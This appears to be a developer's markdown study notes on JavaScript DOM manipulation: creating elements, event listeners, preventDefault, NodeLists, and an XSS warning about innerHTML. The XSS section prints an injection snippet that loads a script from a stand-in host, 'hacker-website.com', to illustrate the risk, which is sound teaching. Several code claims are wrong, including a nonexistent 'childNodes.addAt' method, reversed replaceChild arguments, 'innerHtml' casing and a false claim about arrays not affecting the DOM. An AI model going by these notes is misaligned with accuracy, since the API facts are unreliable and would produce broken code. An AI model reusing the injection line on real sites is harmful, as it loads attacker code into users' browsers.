 # DOM manipulation

Content

 - [use JavaScript to create an HTML element](#how-can-you-use-javascript-to-create-an-html-element-and-then-add-it-to-your-webpage)
 - [`onClick()` vs `handler`](#onclick-vs-handler)
 - [add a `<li>` element to the start of a `<ul>`](#how-would-you-add-a-li-element-to-the-start-of-a-ul)
 - [JavaScript Events](#what-is-a-javascript-event)
 - [event.preventDefault()](what-does-eventpreventdefault-do-and-why-might-you-use-it)
 - [`NodeList` vs `Arrays`](#what-is-a-nodelist-how-is-it-different-from-an-array)
 - [Cross-site scripting (XSS)](#security-concerns-around-elementinnerhtml-what-to-use-instead)

## How can you use JavaScript to create an HTML element and then add it to your webpage?

To create an HTML elelment in JS we can use the function `Document.createElement()`

    var button = document.createElement('BUTTON');

and to create a Text in JS we use the function `Document.createTextNode()`

    var text = document.createTextNode("CLICK ME");

To append a text to an element in JS we use the function `appendChild()`

	button.appendChild(text);

To replace an element in JS

 - `target.replaceWith(newElement);` (ES5+)
 - `target.parentNode.replaceChild(target, newElement)`

## `onClick()` vs `handler`

Using `addEventListener` allows us to add unlimited events.
	
    <button id="btnTalker" onclick="say('Hi from dom\n')" onclick="say('Hi from dom,, again\n')"></button>

> `Hi from dom,, again`

	getElementById('btnTalker').addEventListener('click', function() {say('Hi from js\n')});
	getElementById('btnTalker').addEventListener('click', function() {say('Hi from js,, again\n')});

> `Hi from js`  
> `Hi from js,, again`

## How would you add a `<li>` element to the start of a `<ul>`?

	ulElement.childNodes.addAt(0, liElement);

## What is a JavaScript Event?
HTML events are **things** that happen to HTML elements.  
When JavaScript is used in HTML pages, JavaScript can **react** on these events.

An HTML event can be something the browser does, or something a user does.

Some examples of HTML events:

 - An HTML web page has finished loading.
 - An HTML input field was changed.
 - An HTML button was clicked.

## What does `event.preventDefault()` do and why might you use it?

Some HTML elements has built-in actions

 - `<form>` reloads the page when `sumbit` action is fired.
 - `<a>` navigates to a link when `click` action is fired.

`event.preventDefault()` disables the built-in actions.

## What is a NodeList? How is it different from an Array?

A NodeList is a collection of document nodes.

`NodeList`s are live lists, meaning that if elements are removed or added to the DOM, the list updates automatically.

	var nodeList = document.getElementsByClassName('myClassName'); //returns a nodeList
	var arr = [];
	for(let i = 0; i<nodeList.length;i++)
		arr.push(nodeList[i]);                                 //returns an array
	nodeList[0].innerHtml = '<b>This is changes</b>';              //Changes DOM
	arr[0].innerHtml = '<b>This is changes</b>';                   //Doesn't affect DOM

## Security concerns around `Element.innerHTML`. What to use instead?

Using `innerHTML` may leed to `Cross-site scripting (XSS)`.

Consider the following input of an `innerHTML` statement is a comment in your online blog:

    let x = document.createElement('script');
    x.src = 'http://hacker-website.com/malicious-script.js';
    document.childNodes.addAt(0, x);
    alert('you are hacked');

This may lead to run harmful scripts on your device.

### How to avoid?

You can use `innerText` instead, or you can use

    content = content.replace(/</g, "&lt;").replace(/>/g, "&gt;");
    el.innerText = content;
